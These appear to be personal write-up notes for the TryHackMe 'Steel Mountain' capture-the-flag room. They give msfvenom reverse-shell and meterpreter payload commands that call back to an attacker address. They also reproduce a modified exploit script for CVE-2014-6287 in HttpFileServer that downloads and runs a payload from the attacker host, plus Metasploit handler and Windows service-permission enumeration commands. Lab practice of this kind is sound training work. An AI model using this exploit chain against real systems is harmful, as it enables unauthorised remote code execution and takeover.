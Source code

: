 # Steel Mountain

{% embed url="https://tryhackme.com/room/steelmountain" %}

{% embed url="https://05t3.github.io/posts/Steel-Mountain/" %}

{% embed url="https://medium.com/@weifeng.c01/tryhackme-ctf-steel-mountain-1ac394c030dd" %}

{% embed url="https://blog.razrsec.uk/steel-mountain-walkthrough/" %}

### Initial access

...

#### Retrieving shell (without metasploit)

... to test

{% code overflow="wrap" %}
```sh
$ msfvenom -p cmd/windows/powershell/powershell_reverse_tcp LHOST=<attacker_addr> LPORT=8888 -o <output>.cmd
```
{% endcode %}

_**meterpreter payload**_

{% code overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe LHOST=10.4.10.179 LPORT=8888 -o <output>.exe
```
{% endcode %}

{% code title="host web server to load payload file" overflow="wrap" %}
```sh
$ python3 -m http.server <port>
```
{% endcode %}

_**Modified PoC**_

{% embed url="https://www.exploit-db.com/exploits/39161" %}

{% code title="39161.py" overflow="wrap" %}
```python
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "10.4.10.179" #local IP address
	local_port = "8888" # Local Port number
	rev_shell_payload = "xxxx"

	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%3A9998%2F"+rev_shell_payload+"%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5C"+rev_shell_payload+"%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2

	# vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	vbs3 = "C%3A%5CUsers%5CPublic%5C"+rev_shell_payload

	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
	
            
```
{% endcode %}

{% code overflow="wrap" %}
```sh
$ python2 39161.py <target> <port>
```
{% endcode %}

#### Catch meterpreter&#x20;

```sh
msf6> use multi/handler
msf6> set payload windows/x64/meterpreter_reverse_tcp
msf6> set lhost xxxx
msf6> set lport xxxx

msf6> run
```

### Privilege escalation

#### Enumeration

{% code overflow="wrap" %}
```powershell
PS> Get-Service *
PS> Get-CimInstance Win32_Service -Filter *
PS> sc qc <servicename>
```
{% endcode %}

```powershell
C:\> icacls C:\
C:\> icacls "C:\Program Files.exe"
C:\> icacls "C:\Program Files (x86)\IObit"
C:\> icacls "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

